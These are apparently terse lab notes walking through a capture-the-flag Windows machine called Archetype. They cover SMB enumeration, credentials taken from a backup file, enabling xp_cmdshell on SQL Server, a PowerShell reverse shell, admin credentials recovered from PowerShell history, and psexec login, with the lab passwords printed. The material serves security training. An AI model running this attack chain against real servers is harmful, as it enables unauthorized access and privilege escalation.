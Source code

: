 - nmap it
	- 135: msrpc
	- 139: netbios-ssn
	- 445: Microsoft Server 2008 
		- likely vulnerable Samba
		- add `nmap --script smb-os-discovery <ip>`
			- → Computer name: Archetype
	- 1433: SQL server 2017 14.00.1000
		- CVEs: CVE-2021-1636, CVE-2019-1068, CVE-2019-0819
	- 

- smb
	- `smbclient -N -L //<IP>/`
		- list (-L) directories with no password (-N)
			- ADMINS\$ → nothing
			- backups 
				- → can sign in - backup file
					- `get <FILE> <>`
					- Username: `ARCHETYPE\sql_svc` 
					- Password: `M3g4c0rp123` 
					- Provider SQL
			- C\$ → nothing
			- IPC\$ → nothing

- SQL
	- connect to SQL: `mssqlclient ARCHETYPE\sql_svc:M3g4c0rp123@<IP> -windows-auth`
	- set up xp_cmdshell
		- ```
			EXEC sp_configure 'Show Advanced Options', 1;
			reconfigure;  
			sp_configure;  
			EXEC sp_configure 'xp_cmdshell', 1  
			reconfigure;  
			xp_cmdshell "whoami"
		- run each on their own line
	- make shell.ps1 Powershell reverse shell script
	- run Python server
	- set up listerer
	- get access to the machine
		- find user flag in `C:\Users\sql_svc\Desktop`

- privilege escalation
	- check frequently access/execute file:
		- `type    C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
		- → `net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!! `
		- Administrator: `Administrator`
		- Password: `MEGACORP_4dm1n!!`

- sign in to machine as Administrator
	- `psexec.py administrator@<IP>`
	- get Administrator's flag in `C:\Users\Administrator\Desktop`